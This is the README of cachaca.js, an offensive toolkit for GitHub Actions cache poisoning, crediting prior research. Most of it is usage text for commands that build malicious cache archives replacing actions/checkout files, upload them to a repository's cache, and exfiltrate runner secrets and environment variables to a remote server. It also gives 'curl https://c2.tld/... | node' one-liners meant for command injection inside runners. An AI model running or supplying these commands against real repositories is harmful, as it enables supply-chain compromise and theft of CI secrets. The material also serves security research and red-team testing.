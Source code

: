 <div align="center">
	:cocktail:
</div>
<h1 align="center">
  cachaca.js
</h1>

<p align="center">
   Some JS file to exploit GitHub action cache poisoning.
</p>

<div align="center">
  <!--<img src="img/cachaca.png"/>-->
</div>

<br />

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Installation](#installation)
- [GitHub action cache poisoning](#github-action-cache-poisoning)
- [Usage](#usage)
  - [cachaca-cli.js](#cachaca-clijs)
    - [Upload](#upload)
    - [Archive](#archive)
    - [list](#list)
    - [delete](#delete)
    - [exfil](#exfil)
  - [cachaca-dumper.js](#cachaca-dumperjs)
  - [cachaca-poisoner.js](#cachaca-poisonerjs)
- [Acknowledgements](#acknowledgements)


## Installation

```
$ git clone https://github.com/Hug0Vincent/cachaca.js.git
$ cd cachaca.js
$ npm i
```

To build all the scripts:
```
$ npm run build
```

## GitHub action cache poisoning

> when a workflow checked out and ran user-controlled code, but only had a ``GITHUB_TOKEN`` with read access and no secrets [...] There is a way to escalate by smashing caches.

This attack vector was originaly found by [@adnanthekhan](https://twitter.com/adnanthekhan), you can read it [here](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/) and [here](https://adnanthekhan.com/2024/12/21/cacheract-the-monster-in-your-build-cache/).

This project includes JS scripts designed to exploit GitHub Actions's cache mechanism. To use them, you must be able to execute arbitrary commands within a workflow running on the default branch.

## Usage

### cachaca-cli.js

```
$ node dist/cachaca-cli.js
Usage: cachaca.js [options] [command]

CLI tool for exploiting GitHub action's cache.

Options:
  -V, --version      output the version number
  --stealth          Disable logging (default: false)
  -h, --help         display help for command

Commands:
  upload [options]   Upload a cache entry to GitHub.
  archive [options]  Build a cache archive.
  list [options]     List all cache entries for a repository
  delete [options]   Delete a specific cache entry
  exfil [options]    Send secrets to a remote server.
  help [command]     display help for command

```

#### Upload

The upload command can be used to upload a ``zstd`` archive to GitHub. It should be run from a runner:

```
$ node dist/cachaca-cli.js upload -k cache_key -v node_modules -u https://127.0.0.1/mycache.zstd
```

> [!NOTE] 
> You can specify the version as a path (or multiple paths separated by commas). If you do, the tool will automatically resolve the actual version for you.

```
Usage: cachaca.js upload [options]

Upload a cache entry to GitHub.

Options:
  -k, --key <key>          Cache key
  -v, --version <version>  Cache version
  -f, --file <path>        Path to the local artifact file
  -u, --url <url>          URL of the remote artifact file
  -t, --token <token>      GitHub token
  -h, --help               display help for command
```

> [!NOTE] 
> You can execute it independently of a runner by supplying a cached JWT. However, you won’t be able to upload an archive if the workflow that provided the JWT has already terminated.

#### Archive

This command can be used to build malicious ``zstd`` archives:

```
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./assets/action_checkout.yml -r /home/runner/work/_actions/actions/checkout/v4/action.yml
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./dist/cachaca-dumper.js -r /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js
📦 building archive: mycache.zstd
✅ Archive updated.
📄 Archive entries:
	- /home/runner/work/_actions/actions/checkout/v4/action.yml
	- /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js

```

```
Usage: cachaca.js archive [options]

Build a cache archive.

Options:
  -z, --zstd <path>          Path for the archive file
  -a, --add <path>           Source file or directory to archive
  -r, --rename <name>        Rename file in archive.
  -l, --leading-path <path>  Leading path in the archive (default: "")
  --list                     List archive content.
  -h, --help                 display help for command

```

#### list

This command is used to list cache entries from a repo:

```
$ node dist/cachaca-cli.js  list -o actions -r runner                                                                                     26.15% 2/9GB 
Cache entries:
- Key: Linux-nuget-86355ad7f28c3580457d8ef5b7f66a402201c7c7abb60add09b887f3512d907e, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/main, Size: 1737918364 bytes
- Key: Linux-nuget-d6dfc31d4d2f6ebf6a2ed39484c617033ba83fe3a0919004cd7fd1219228cf2d, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/dependabot/nuget/src/Sdk/main/Azure.Storage.Blobs-12.25.1, Size: 2610626989 bytes
```

#### delete

This command is used to remove a cache entry from a repo.

```
$ node dist/cachaca-cli.js  delete -o org -r repo -t $GHP -k cache_key -v cache_version
```

> [!IMPORTANT]  
> You need to provide a token with the ``actions: write`` permission.

#### exfil

This command extracts the GitHub secrets passed to the runner, along with the current environment variables, and sends them as a JSON payload via a POST request to a remote server. It must be executed within a runner.

```
$ node dist/cachaca-cli.js exfil -u https://127.0.0.1
```

### cachaca-dumper.js

Single script that perform the same operation as the ``exfil`` command. The URL is embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-dumper.js | node
```

To configure it edit the ``dumperExfilUrl`` value in [config.json](config.json).

### cachaca-poisoner.js

Single script that perform the same operation as the ``upload`` command. The arguments are embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-poisoner.js | node
```

To configure it edit the values in [config.json](config.json).

``poisonerFetchMode`` can be ``url`` / ``file`` / ``embedded``. In any case ``poisonerFetchModeValue`` will contain the associated value wich would be an URL or a file path. In the ``embedded`` case the file will be staticaly added to ``cachaca-poisoner.js``.

``poisonerCacheVersion`` must contain the full version or the value of the ``path`` in the ``restore`` action:

```yml
-   name: cache
    uses: actions/cache/restore@v4
    with:
        path: node_modules/
        key: npm-test
```

Here is a config example:

```json
{
    "dumperExfilUrl":"https://127.0.0.1/",
    "poisonerFetchMode":"url",
    "poisonerFetchModeValue":"http://127.0.0.1/custom_cache.zstd",
    "poisonerCacheKey": "npm-test",
    "poisonerCacheVersion": "node_modules/"
}
```

## Acknowledgements

- [@adnanthekhan](https://twitter.com/adnanthekhan) for the original research and also because portions of this project include code from [Cacheract](https://github.com/AdnaneKhan/Cacheract).